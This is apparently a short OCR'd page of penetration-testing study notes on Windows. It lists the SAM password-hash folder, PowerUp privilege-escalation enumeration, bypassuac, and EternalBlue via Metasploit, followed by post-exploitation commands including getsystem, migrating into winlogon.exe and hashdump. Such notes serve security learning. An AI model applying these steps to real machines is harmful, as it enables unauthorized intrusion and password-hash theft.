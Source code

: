   
  
  
  

# Windows

  

# Sensitive Folders

  
Windows sam location  
\[\*\] Password Hashes: C:\Windows\System32\config

# Scripts

  
powersploit  
  
To enumerate this machine, we will use a powershell script called
PowerUp, that's purpose is to evaluate a Windows machine and determine
any abnormalities -¬†  
<span class="small">"</span>*<span class="small">PowerUp aims to be a
clearinghouse of common Windows privilege escalation¬†vectors that rely
on misconfigurations.</span>*<span class="small">"</span>  
  
[![](../_resources/164-1.png)]()  
  
using bypassuac local exploit  

# Eternalblue

  
Metasploit  
445 n smb  
  
exploit/windows/smb/ms17\_010\_eternalblue  
  
post  
===  
shell\_to\_meterpreter  
  
commands  
=======  
getsystem  
migrate -N winlogon.exe  
hashdump  
search  

# Linux

  

# With ssh
